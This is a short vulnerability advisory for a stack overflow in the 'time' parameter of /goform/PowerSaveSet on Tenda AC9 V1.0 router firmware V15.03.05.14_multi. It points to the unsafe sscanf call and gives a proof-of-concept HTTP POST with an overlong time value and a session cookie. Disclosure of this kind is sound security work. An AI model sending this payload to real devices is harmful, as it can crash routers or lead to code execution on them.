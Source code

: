 # Tenda AC9 V1.0 V15.03.05.14_multi stack overflow vulnerability
## Affected Version
Tenda AC9 V1.0 V15.03.05.14_multi
## Vulnerability Description
In Tenda ac9 v1.0 routers with firmware version V15.03.05.14_multi, the time parameter of route /goform/PowerSaveSet has a stack overflow vulnerability, which can lead to remote arbitrary code execution.
## Vulnerability Detail
There is a stack overflow vulnerability in the setSmartPowerManagement function in Tenda AC9 V1.0 firmware V15.03.05.14_multi.This function accepts the time parameter from a POST request by variable v24.However, since the user has control over the input of time, and sscanf() simply parses the data in the format specified by format and stores it directly into the target variable，the statement "sscanf(v24, "%[^:]:%[^-]-%[^:]:%s", &v20, &v18, &v16, &v14);  " may leads to a buffer overflow.  The user-supplied time can exceed the capacity of the  v6  array, thus triggering this security vulnerability.

![img](./img/PowerSaveSet.png)

## Poc
```py
POST /goform/PowerSaveSet HTTP/1.1
Host: 192.168.0.1
Connection: keep-alive
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.198 Safari/537.36
Cookie: password=452b97084f53fd461f33687a27a21f4dpxatgb

time=00:10-1:8888888888888888888888888888888888888888888888888888888
```
